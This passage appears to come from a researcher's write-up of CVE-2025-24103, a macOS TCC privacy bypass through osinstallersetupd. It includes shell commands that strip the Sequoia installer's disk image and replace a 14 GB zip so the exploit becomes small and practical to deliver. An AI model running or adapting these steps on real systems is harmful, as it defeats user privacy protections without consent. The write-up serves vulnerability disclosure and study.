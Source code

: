 ```shell

    return 0;
}
```



**The final exploit doesn't need any permisisons, normal user -> general TCC bypass. Don't need the root access.**



Till now, the exploit is almost complete, but we have to do more if we wanna make this exploit more valuable.

**Currently, the original app exceeds 14GB in size. If we are required to download the entire package each time we attempt to exploit it, the overall practicality of the exploit would be significantly reduced. This issue needs to be addressed.**



## 3. 14 G ? No, it's 24M or less

We don't need to create a fake `Install macOS Sequoia.app` because the vulnerability component is not `InstallAssistant`, it is `osinstallersetupd`.

So we only need to copy the necessary folders:

- Frameworks

- PlugIns

  <img src="/images/2025-08-01-CVE-2025-24103-General-TCC-Bypass/image-20240930214443350.png" style="zoom:50%; display: block; margin: 0 auto;" />

And the biggest item in `SharedSupport.dmg` is `7d763b0793c8e214f2d9bb078a0cba7b470e57e2.zip` , more than 14G, we just need to use a malicious zip file to replace it:

```shell
mkdir /Applications/testfolder/target/SharedSupport

hdiutil attach -nobrowse -mountpoint /Applications/testfolder/mountme /Applications/Install\ macOS\ Sequoia.app/Contents/SharedSupport/SharedSupport.dmg

mkdir /Applications/testfolder/allfiles

cd /Applications/testfolder/mountme/

find . -type f ! -name '7d763b0793c8e214f2d9bb078a0cba7b470e57e2.zip' -print0 | cpio -pdmv0 /Applications/testfolder/allfiles/  >/dev/null 2>&1

cd /

cp /Applications/testfolder/allfiles/com_apple_MobileAsset_MobileSoftwareUpdate_MacUpdateBrain/45a6023255867c23693640cb27c53c3a39b6764d.zip /Applications/testfolder/allfiles/com_apple_MobileAsset_MacSoftwareUpdate/7d763b0793c8e214f2d9bb078a0cba7b470e57e2.zip
```
